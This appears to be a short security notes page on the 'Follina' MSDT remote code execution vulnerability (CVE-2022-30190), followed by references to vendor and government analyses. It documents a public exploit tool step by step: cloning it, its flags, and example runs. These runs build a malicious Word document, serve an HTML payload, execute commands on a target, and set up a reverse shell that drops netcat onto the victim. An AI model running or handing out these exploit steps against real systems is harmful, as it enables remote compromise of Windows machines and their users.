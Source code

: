```yaml
---
title : "CVE-2022-30190"
# pre : ' '
description : "Microsoft Support Diagnostic Tool (MSDT) RCE Vulnerability 'Follina'."
date : 2022-06-02T11:07:21+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2022-30190 - Microsoft Support Diagnostic Tool (MSDT) RCE Vulnerability 'Follina'

![Example](images/example1.png)

### Installation

```plain
git clone https://github.com/JohnHammond/msdt-follina
```

### Usage

```plain
follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]
```

### Flags

```plain
options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```

### Examples

Pop `calc.exe`:

```plain
$ python3 follina.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
```

Pop `notepad.exe`:

```plain
python3 follina.py -c "notepad"
```

Get a reverse shell on port 9001. **Note, this downloads a netcat binary _onto the victim_ and places it in `C:\Windows\Tasks`. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.**

```plain
python3 follina.py -r 9001
```

![Example](images/example2.png)

### URL list

* [Github.com - msdt-follina](https://github.com/JohnHammond/msdt-follina)
* [YouTube.com - let’s play with a ZERO-DAY vulnerability 'follina'](https://www.youtube.com/watch?v=3ytqP1QvhUc)
* [Fortinet.com - Analysis of Follina Zero Day](https://www.fortinet.com/blog/threat-research/analysis-of-follina-zero-day)
* [Kaspersky.com - Follina: office documents as an entrance](https://www.kaspersky.com/blog/follina-cve-2022-30190-msdt/44461/)
* [Cisa.gov - Microsoft Releases Workaround Guidance for MSDT 'Follina' Vulnerability](https://www.cisa.gov/uscert/ncas/current-activity/2022/05/31/microsoft-releases-workaround-guidance-msdt-follina-vulnerability)
* [Huntress.com - Rapid Response: Microsoft Office RCE - 'Follina' MSDT Attack](https://www.huntress.com/blog/microsoft-office-remote-code-execution-follina-msdt-bug)
